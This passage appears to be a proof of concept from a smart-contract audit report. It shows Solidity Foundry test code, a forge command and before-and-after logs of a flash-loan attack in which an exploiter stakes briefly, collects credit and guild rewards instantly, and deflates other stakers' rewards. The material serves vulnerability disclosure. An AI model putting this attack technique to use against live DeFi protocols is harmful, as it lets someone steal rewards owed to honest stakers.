 ```solidity
        console.log("Staker1 credit reward:                                      ", gUSDC.balanceOf(address(STAKER1)));
        console.log("Staker1 guild reward:                                      ", guild.balanceOf(address(STAKER1)));
        console.log("Staker2 credit reward:                                     ", gUSDC.balanceOf(address(STAKER2)));
        console.log("Staker2 guild reward:                                      ", guild.balanceOf(address(STAKER2)));
        console.log("Staker3 credit reward:                                     ", gUSDC.balanceOf(address(STAKER3)));
        console.log("Staker3 guild reward:                                      ", guild.balanceOf(address(STAKER3)));
        console.log("GaugeProfitIndex:                                     ", profitManagerUSDC.gaugeProfitIndex(termUSDC));
    }

    // Function that will compute Alice's interest with which notifyPnL will be called so that the attack is as accurate as possible
    function _computeAliceLoanInterest(uint borrowTime, uint borrowAmount) private view returns (uint interest) {
        uint256 _INTEREST_RATE = 0.10e18; // 10% APR --- from LendingTerm tests
        uint256 YEAR = 31557600;

        interest = (borrowAmount * _INTEREST_RATE * (block.timestamp - borrowTime)) / YEAR / 1e18;
    }
}
```

There are tests for both cases – one without the attack and another with the attack scenario.

Run them with:

```solidity
forge test --match-contract "DeflateGuildHoldersRewardsUnitTest" --match-test "testGuildHoldersRewards" -vvv
```

```solidity
Logs:
  -------------------------------AFTER ATTACK-------------------------------
  EXPLOITER Credit Balance before flashloan:                               0
  EXPLOITER Credit Balance after flashloan:       10000000000000000000000000
  EXPLOITER Credit balance after stake:                                    0
  EXPLOITER (instant) Credit reward:                      205305960080000000
  EXPLOITER (instant) Guild reward:                      1026529800400000000
  EXPLOITER credit balance after unstake:         10000000205305960080000000
  Staker1 credit reward:                                       4106119201600
  Staker1 guild reward:                                       20530596008000
  Staker2 credit reward:                                      16424476806400
  Staker2 guild reward:                                       82122384032000
  Staker3 credit reward:                                      12318357604800
  Staker3 guild reward:                                       61591788024000
  GaugeProfitIndex:                                      1000000010265298004

Logs:
  ------------------------------BEFORE ATTACK------------------------------
  Staker1 credit reward:                                   25667351129363200
  Staker1 guild reward:                                   128336755646816000
  Staker2 credit reward:                                  102669404517452800
  Staker2 guild reward:                                   513347022587264000
  Staker3 credit reward:                                   77002053388089600
  Staker3 guild reward:                                   385010266940448000
  GaugeProfitIndex:                                      1000064168377823408
```
